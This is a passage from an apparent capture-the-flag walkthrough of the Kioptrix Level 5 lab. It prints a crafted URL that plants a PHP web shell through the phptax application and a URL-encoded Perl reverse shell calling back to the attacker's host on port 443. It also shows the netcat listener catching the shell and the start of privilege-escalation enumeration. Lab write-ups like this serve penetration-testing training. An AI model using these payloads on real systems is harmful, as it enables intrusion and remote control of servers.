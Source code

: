 ### Remote Command Execution

Although the exploit itself didn't work, going through exploit's code the following URL exploit has been manually crafted:

```
http://192.168.20.148:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E%22
```

To test the exploit **id** command has been ran through the URL as shown below:

```
http://192.168.20.148:8080/phptax/data/rce.php?cmd=id
```

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/id.png?raw=true)

### Low Privilege Shell

Exploiting remote command execution using [perl reverse
shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```
http://192.168.20.148:8080/phptax/data/rce.php?cmd=perl+-e+%27use+Socket%3B%24i%3D%22192.168.20.144%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh+-i%22%29%3B%7D%3B%27
```

Catching reverse shell and upgrading the shell to TTY shell:

```bash
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.20.144] from (UNKNOWN) [192.168.20.148] 48185
sh: can't access tty; job control turned off
$ whoami
www
$ perl -e 'exec "/bin/bash";'
```

Privilege Escalation
--------------------

### Enumeration

Confirming the target’s operating system/kernel:
```bash
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```
